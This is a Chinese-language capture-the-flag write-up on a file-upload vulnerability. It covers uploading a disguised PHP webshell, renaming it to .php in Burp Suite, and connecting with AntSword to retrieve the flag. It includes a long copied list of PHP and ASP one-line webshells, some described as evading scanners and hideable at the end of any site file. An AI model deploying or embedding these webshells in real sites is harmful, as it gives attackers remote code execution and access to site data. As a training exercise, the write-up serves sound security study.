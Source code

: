 # Backgroud

## 文件上传漏洞

+ 对于web文件上传的一些漏洞，这里就不赘述啦，[文件上传漏洞总结](https://blog.csdn.net/weixin_59872639/article/details/123077019)

## 上传个jpg抓包试试

+ 随便上传一张图片（题目要求为username_str.jpg形式上传），我们发现文件路径/uploads/Qyang_lux.jpg

  [![xvMu0s.md.png](https://s1.ax1x.com/2022/11/07/xvMu0s.md.png)](https://imgse.com/i/xvMu0s)

  所以理清思路：***我们需要将我们的一句话木马成功上传并在网页访问它，成功执行里面的代码，并蚁剑连接获取网页源数据***；

+ BP抓包看看有上传的信息：***POST方式、filename就是我们的文件名、类型为image图片型***

  [![xvMycD.md.png](https://s1.ax1x.com/2022/11/07/xvMycD.md.png)](https://imgse.com/i/xvMycD)

  常见的媒体格式类型如下：转载[HTTP content-type | 菜鸟教程 (runoob.com)](https://www.runoob.com/http/http-content-type.html)

  ``````
  text/html ： HTML格式
  text/plain ：纯文本格式
  text/xml ： XML格式
  image/gif ：gif图片格式
  image/jpeg ：jpg图片格式
  image/png：png图片格式
  
  以application开头的媒体格式类型：
  
  application/xhtml+xml ：XHTML格式
  application/xml： XML数据格式
  application/atom+xml ：Atom XML聚合格式
  application/json： JSON数据格式
  application/pdf：pdf格式
  application/msword ： Word文档格式
  application/octet-stream ： 二进制流数据（如常见的文件下载）
  application/x-www-form-urlencoded ： <form encType=””>中默认的encType，form表单数据被编码为key/value格式发送到服务器（表单默认的提交数据的格式）
  
  另外一种常见的媒体格式是上传文件之时使用的：
  
  multipart/form-data ： 需要在表单中进行文件上传时，就需要使用该格式
  ``````

## 伪造一个jpg文件试试

+ 创建一个txt文件写入`<?=eval($_POST=['cmd']);?>`，保存并把文件名改为jpg尝试上传；

  [![xvQFb9.png](https://s1.ax1x.com/2022/11/07/xvQFb9.png)](https://imgse.com/i/xvQFb9)

  上传被拒绝了，***说明eval肯定被网页给过滤掉了***；

  我们换个语句`<?php  //?cmd=phpinfo(); $func =create_function('',$_REQUEST['cmd']); $func(); ?>`再试试，没有alert说明上传成功啦！！；

  常用的PHP一句话木马，转载[Fasthand_文件上传漏洞](https://blog.csdn.net/qq_43390703/article/details/104858705)

  ``````
  <?php @eval($_POST['r00ts']);?> 
  
  <?php phpinfo();?>
  
  <?php @eval($_POST[cmd]);?>
  
  <?php @eval($_REQUEST[cmd]);?>
  
  <?php assert($_REQUEST[cmd]); ?>
  
  <?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
  
  <?php 
  $func =create_function('',$_REQUEST['cmd']);
  $func();
  ?>
  
  <?php
  //?func=system&cmd=whoami
  $func=$_GET['func'];
  $cmd=$_GET['cmd'];
  $array[0]=$cmd;
  $new_array=array_map($func,$array);
  //print_r($new_array);
  ?>
  
  <?php 
  //?cmd=phpinfo()
  @call_user_func(assert,$_GET['cmd']);
  ?>
  
  <?php 
  //?cmd=phpinfo()
  $cmd=$_GET['cmd'];
  $array[0]=$cmd;
  call_user_func_array("assert",$array);
  ?>
  
  <?php 
  //?func=system&cmd=whoami
  $cmd=$_GET['cmd'];
  $array1=array($cmd);
  $func =$_GET['func'];
  array_filter($array1,$func);
  ?>
  
  <?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
  
  <?php usort(...$_GET);?>  php环境>=5.6才能用
  
  <?php eval($_POST1);?> 
  
  <?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
  
  <?php system($_REQUEST1);?> 
  
  <?php ($_=@$_GET1).@$_($_POST1)?> 
  
  <?php eval_r($_POST1)?> 
  
  <?php @eval_r($_POST1)?>//容错代码 
  
  <?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
  
  <?$_POST['c']($_POST['cc']);?> 
  
  <?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
  
  <?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
  
  <?php echo `$_GET['r']` ?> 
  
  
  <script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话
  
  <?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！
  
  <?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
  加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！
  
  <%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
  无防下载表，有防下载表可尝试插入以下语句突破的一句话 
  
  <%eval(request(“1″)):response.end%> 备份专用
  
  
  ``````

  

## 将jpg文件伪造成php文件上传

+ 前面我们成功上传了自己构造的”jpg文件“，但是***网页是无法把jpg文件当成php文件解析的***；

  [![xvQxZd.md.png](https://s1.ax1x.com/2022/11/07/xvQxZd.md.png)](https://imgse.com/i/xvQxZd)

+ BP抓包上传过程，将Qyang_3.jpg改为Qyang_3.php上传，为了显式告知我们php代码能成功执行，我们在末尾加一句`echo "successful!"`；

  [![xvlzXF.md.png](https://s1.ax1x.com/2022/11/07/xvlzXF.md.png)](https://imgse.com/i/xvlzXF)

+ 访问/uploads/Qyang_3.php执行代码，看到***successful！***说明上传成功了；

  [![xv1wAs.png](https://s1.ax1x.com/2022/11/07/xv1wAs.png)](https://imgse.com/i/xv1wAs)

+ 直接蚁剑连接一下，连接成功！整个网页的全部数据尽入囊中；

  [中国蚁剑的下载与基本使用](https://zhuanlan.zhihu.com/p/537053564)（测试连接若发现”返回数据为空“/”Error...“多半是没有上传成功或url错了）

  [![xv16jU.md.png](https://s1.ax1x.com/2022/11/07/xv16jU.md.png)](https://imgse.com/i/xv16jU)

  找一下flag发现就在wwwroot文件夹下；

  [![xv1fE9.png](https://s1.ax1x.com/2022/11/07/xv1fE9.png)](https://imgse.com/i/xv1fE9)

  flag：***flag{ohh3hhh_y5u_h3ve_d0ne_a_g00d_jo3}***